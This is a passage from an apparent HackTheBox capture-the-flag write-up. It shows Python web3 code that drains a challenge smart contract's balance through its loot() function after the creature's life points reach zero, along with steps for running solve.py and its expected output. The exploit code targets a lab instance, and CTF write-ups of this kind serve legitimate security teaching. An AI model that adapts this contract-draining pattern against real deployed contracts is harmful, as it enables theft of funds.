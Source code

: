 ```python
life_points = creature.functions.lifePoints().call()  # Now: 0

loot_tx = creature.functions.loot().build_transaction({
    'from': account.address,
    'nonce': w3.eth.get_transaction_count(account.address),
    'gas': 100000,
    'gasPrice': w3.eth.gas_price
})

signed_loot = account.sign_transaction(loot_tx)
loot_hash = w3.eth.send_raw_transaction(signed_loot.raw_transaction)
loot_receipt = w3.eth.wait_for_transaction_receipt(loot_hash)

final_balance = w3.eth.get_balance(TARGET_ADDRESS)  # Should be: 0
```

The `loot()` function transfers the entire balance to our address since `lifePoints == 0`.

---

## Running the Solution

1. **Spawn a new HTB instance** (if needed)
2. **Update the credentials** in `solve.py`:
   - `RPC_URL`
   - `PRIVATE_KEY`
   - `TARGET_ADDRESS`
3. **Run the script**:

```bash
python solve.py
```

### Expected Output

```
Connected to RPC
Life Points: 20
Balance: 10 wei
Attack tx: 0x...
Life Points now: 0
Loot tx: 0x...
Final Balance: 0 wei
Done!
```

If the instance has expired, you'll see:
```
Connected to RPC
Contract not found at 0x...
The instance might have expired. Spawn a new one and update the addresses.
```

Flag obtained! HTB{...}

---